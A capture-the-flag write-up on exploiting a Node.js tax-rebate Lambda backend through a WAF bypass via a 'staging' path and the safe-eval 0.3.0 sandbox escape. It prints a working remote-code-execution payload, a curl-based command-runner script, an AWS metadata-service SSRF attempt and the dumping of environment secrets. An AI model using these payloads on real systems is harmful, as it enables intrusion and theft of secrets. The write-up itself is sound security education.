






# Hold the line! Perimeter defences doing it's work!
**2000 Points // 2 Solves**

Apparently, the lead engineer left the company ("Safe Online Technologies"). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle `c0v1d-agent-1`. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!  
[Tax rebate checker](http://z8ggp.tax-rebate-checker.cf/)

## A First Look
This time, the frontend was hosted on Google Cloud Platform: 

Unfortunately, it's not the most factually accurate or exciting page...



_You can literally only type anything satisfying `([0-9e])+`._

Clearly, the challenge does not intend for us to exploit the frontend of the website. So we have to exploit the backend.

But to exploit the back-end, we need to find/leak the source code for any files or APIs. Where do we go to find such a thing?

## Preliminary Reconnaissance

Taking a look at the problem statement, we see that the engineer that worked on this had went by the handle `c0v1d-agent-1`.

So we searched the handle up on GitHub and...



Bingo.

## Finding the Exploit

Before we exploit the page, we must first **find** the exploit.

### Backend Reconnaissance

A myriad of tools exist for tracing API calls:

- Browsers "Developer Tools" -> "Network" tab (we chose this)
- Wireshark
- Fidder
- Burpsuite  
_etc._

We can try using the API by tying filling in random values into the field:



Et voilá!



We can see that the website sends a POST request to

```
https://cors-anywhere.herokuapp.com/

https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker (actual API endpoint)
```

CORS Anywhere is a service used to bypass the samesite policy. As the API Gateway URL does not return a CORS header on its own (no idea why it doesn't), this is needed to tell the browser that it's okay to send a request to this page.

Immediately, we can deduce that:

- The backend is proxied behind [AWS Gateway](https://aws.amazon.com/api-gateway/)
- [AWS Lambda](https://aws.amazon.com/lambda/) is a commonly used serverless service used in conjunction with AWS Gateway.

### Diving into Github

In grabbing information from Github, we found something really interesting:


We now know that:

- There is a vulnerable library being used.
- If we change the API URL from 'prod' to 'staging', we can bypass WAF
  - A WAF/Web Application Firewall is used to prevent attacks by filtering incoming requests. In this case, it seems to look for illegal characters that are required in order to perform this attack.

As the application was running on Node.js, we can find the dependencies in `package.json`:

```json
{
  "name": "pension-shecker-lambda",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "safe-eval": "^0.3.0"
  }
}
```

`safe-eval` is the only dependency listed, so we checked out its GitHub and NPM pages.

Sure enough, `safe-eval 0.3.0` has a [critical vulnerability](https://github.com/hacksparrow/safe-eval/issues/5) to be exploited. (to add: explain what the person is doing. why does this bypass safe-eval?)

## Exploiting the Exploit

To recap, we just need to switch from `prod` to `staging` in the API URL, to bypass the WAF: https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker. _(easiest WAF bypass on earth: done)_

From `index.js`, we can see that the [vulnerable line](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js#L13) uses:

```js
safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
```

This means that:

- We have to put our payload in `body.age`, not the other way round
  - We want `<payload> // + this stuff is all in a comment`
  - If we put the payload in `salary`, the payload would be `<body.age> + <payload> //`, which would result in an error (if `<body.age> + <payload>` is invalid), or it would return the added value of the two
- Whatever values for `body.age` and `body.salary` we have to pass in needs to be in base64.

Hence, our payload wrapper would look like this:

```js
{
    "age": new Buffer(`<PAYLOAD>//`, "ascii").toString("base64"),
    "salary": "any value will do here since it's commented either way"
}
```

We found an example payload [here](https://snyk.io/vuln/SNYK-JS-SAFEEVAL-608076), but it did not work for AWS's newer version of Node.js (later determined to be Node.js 12.19.0 with `node --version`). We dug a bit deeper in the GitHub issues and found an [updated payload to use](https://github.com/hacksparrow/safe-eval/issues/18#issuecomment-592644871).  (to add: explain how this exploit works)

We just need to replace `whoami` with our preferred shell command to run arbitrary commands.

## Finding the flag
_([skip to solution](#solution))_ (hmm, should this be here?)

Now we are in the Lambda function, RCE in hand. However, no hints were given about where the flag was located.

To avoid wasting time, we drew up a shell file to perform any command we wanted quickly:

```bash
cmd="(function(){delete this.constructor;const HostObject=this.constructor;const HostFunction=HostObject.is.constructor;const process=HostFunction('return process')();return process.mainModule.require('child_process').execSync('COMMAND').toString();})()//"

echo -n "Command? "
read rep

payload=$(echo -n "${cmd/COMMAND/$rep}" | base64 | tr -d " \t\n\r")

curl https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker --data '{"age":'\"$payload\"',"salary":"123"}' -H 'Content-Type: application/json'
```

(basically we used a really bad non-interactive reverse shell, since Lambda functions time out quickly and we cannot use a normal reverse shell)

Essentially all we did was:

- Input any command we want (well... [not really](#Appendix-A))

First we suspected that the file might have been part of the Lambda deployment package. We knew that Lambda only allows [functions to write to `/tmp` (during execution)](https://forums.aws.amazon.com/thread.jspa?threadID=174119), and [Lambda Layers are written to `/opt`](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html). 

When `ls` on these two directories did not succeed, we tried `ls -R` (recursive) on the root directory in desperation, but quickly hit the [default execution time limit of 3s](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-limits.html).

Next, we tried to use SSRF to use the [metadata service](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/) available on AWS. This meant that we were looking for some metadata about the Lambda function, or perhaps other functions available, or S3 buckets on the account. We tried to do this by editing the payload a little:

```js
// return process.mainModule.require('child_process').execSync('COMMAND').toString();
const http = require('http');
http.get('http://169.254.169.254', res => {
  // do whatever
})
```
But we faced a few problems quickly:
1. It seems like the VM created by `safe-eval` does not have internet access. When we tried to ping a RequestBin, it did not show up.
2. The asynchronous nature of the call made it really hard to return its value

This convinced us that there was an easier way.

### Solution
Finally, it hit us that environment variables existed. **GROUNDBREAKING DISCOVERY**.

(Environment variables are the values of your computer's operating system (environment). They affect how programs run and whether you use "python" or "/usr/bin/python" or what have you.)

This is where Lambda functions commonly store secrets and configuration data:



In order to print this out, we decided to use the `printenv` command.

```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
flag=3nv_L0oK$-G$$D!
...
```

## Flag
```
govtech-csg{3nv_L0oK$-G$$D!}
```

## Appendix A
We initially tried a lot of commands like `find`, `curl` etc. However, we noticed that they couldn't be found.

Being curious and also rather intellectually challenged, we decided to look up all the commands with `ls /usr/bin`.

After some clean-up, we ended up with:
```
alias arch awk base64 basename bash bashbug bashbug-64 bg 
ca-legacy captoinfo cat catchsegv cd chcon chgrp chmod chown cksum 
clear comm command cp csplit cut date dd df dgawk dir dircolors 
dirname du echo egrep env expand expr factor false fc fg fgrep fmt 
fold gawk gencat getconf getent getopts grep groups head hostid 
iconv id igawk info infocmp infokey infotocap install jobs join 
ldd link ln locale localedef logname ls makedb md5sum mkdir mkfifo 
mknod mktemp mv nice nl nohup nproc numfmt od p11-kit paste 
pathchk pgawk pinky pldd pr printenv printf ptx pwd read readlink 
realpath reset rm rmdir rpcgen runcon sed seq sh sha1sum sha224sum 
sha256sum sha384sum sha512sum shred shuf sleep sort sotruss split 
sprof stat stdbuf stty sum sync tabs tac tail tee test tic timeout 
toe touch tput tr true truncate trust tset tsort tty tzselect 
umask unalias uname unexpand uniq unlink update-ca-trust users 
vdir wait wc who whoami yes 
```

This is because the Lambda image is built to be tiny and quick to deploy, because these instances can be created and destroyed in a matter of minutes.

To run other commands, they must be packaged with the function, put in a Lambda layer, or by using a [self-made container](https://aws.amazon.com/en/about-aws/whats-new/2020/12/aws-lambda-now-supports-container-images-as-a-packaging-format/).